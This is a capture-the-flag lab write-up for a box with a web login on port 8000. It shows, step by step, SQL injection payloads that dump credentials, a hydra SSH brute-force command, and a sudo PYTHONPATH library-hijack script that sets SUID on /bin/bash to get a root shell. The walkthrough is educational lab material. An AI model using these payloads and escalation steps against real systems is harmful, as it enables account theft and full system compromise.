

# Enumeration
Let's use rustscan to quickly find any open ports. We find ports 22 and 8000 are open.


Checking with a full nmap scan confirms this. We follow this up with a detailed scan.


Let's check out the web server on port 8000. We find a login form, together with a link for a registration form.


We can make an account and use this to login. We're greeted with an index page, and nothing else.

At this point, we don't have much to work with besides the login form. Gobuster doesn't find any interesting directories, and we can't make use of ssh. One thing we can do is try SQL injection. Let's use the input  `' or 1=1 -- -` for both the username and password.


Success! This confirms that the web server is using SQL to pull user information. In this case, we were able to extract a username.
<br>

# Exploitation
Now let's use SQL injection to try and extract some credentials from the current table. To make this easier, we'll use BurpSuite and send the login request to Repeater in order to see the output of our injection.


Note: We can use any input for the password in the above screenshot, and we still get access to smokey's access. So our payload will always be inserted in the username field.

We want to begin by enumerating the columns in the table where smokey's credentials are presumably stored. We do this by using `' UNION SELECT' 1,...,n-- -`, where n is our guess for the number of columns. Starting at 1 and incrementing, we eventually get a hit with `' UNION SELECT 1,2,3,4--`.


This tells us we have four columns. Note that the '2' appears in the username field, so this suggests the second column contains usernames. The first column is presumably the user id, and the remaining columns are likely the user's password and email. We enumerate databases > tables > columns. To get the databases, we use:

```SQL
' UNION SELECT 1, (select group_concat(SCHEMA_NAME) from Information_Schema.SCHEMATA) ,3,4 FROM information_schema.tables-- -
```


So we have the standard `information_schema` database together with the `website` database; the latter will be more relevant for us. Now we'll get the table name using:

```SQL
' UNION SELECT 1, (select group_concat(TABLE_NAME) from Information_Schema.TABLES where TABLE_SCHEMA = 'website') ,3,4 FROM information_schema.tables-- -
```


So we are looking in the `users` table within the `website` database. (Note: The target IP changes from this point on, since I accidentally terminated the machine.) Now we enumerate the columns:

```SQL
' UNION SELECT 1, (select group_concat(COLUMN_NAME) from Information_Schema.COLUMNS where TABLE_SCHEMA = 'website') ,3,4 FROM information_schema.tables-- -
```


As expected, we have columns for the user id, username, password, and email. Finally, we can extract the usernames and passwords from the database with:

```SQL
' UNION SELECT 1, (select group_concat(username, password) from website.users) ,3,4 FROM information_schema.tables-- -
```


Succes! We've obtained smokey's password using SQL injection. Note: The "testuser" is a user I added when messing with the registration form. Since this new user was added to the users table, we should expect to see their credentials along with smokey's.

We can now ssh into smokey's account, thus giving us an initial foothold.



We find the `user.txt` flag. Unfortunately, it is in another user's directory, and we don't have read privileges.


However, we now know the name of another user: hazel. We can try to brute force hazel's ssh login using hydra:

```
hydra -l hazel -P /usr/share/wordlists/rockyou.txt 10.10.255.238 -t 4 ssh
```

Here we use `-t` to specify the number of tasks to run in parallel. Hydra suggests using 4 for ssh, so we'll go with that.

After a very long time, we eventually find hazel's password.


It turns out that hazel's password is extremely easy to guess. Given that the hydra attack lasted over an hour for me, I assume that this is not the intended route. Rather, one should try some (painfully) obvious passwords when finding a new user.

In any case, this gives us access to hazel's file system. We find the `user.txt` flag in hazel's home directory.


<br>

# Post-Exploitation
Let's start by using `sudo -l` to see what hazel can run as root.


In hazel's home directory, we find the python script `hasher.py` referenced above. Note that we can run the python script as sudo, as indicated above, and we can set the environment.


The script itself doesn't do much for us (it just prints some hashes of an input we give), but notice that the first line imports the hashlib library. We can use this to our advantage by creating our own `hashlib.py` script. The contents are:

```  
import os
os.system('chmod u+s /bin/bash')
```

This script sets the SUID bit for `/bin/bash`, which we can then use for privesc. Note that we have to `cd` into the `/tmp` directory first, since we don't have write permissions in hazel's home directory. Now run `
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py`. We will get an error, but the SUID bit will be set. We then run `/bin/bash -p` to spawn a root shell.


From here, we find the `root.txt` flag in the usual place.

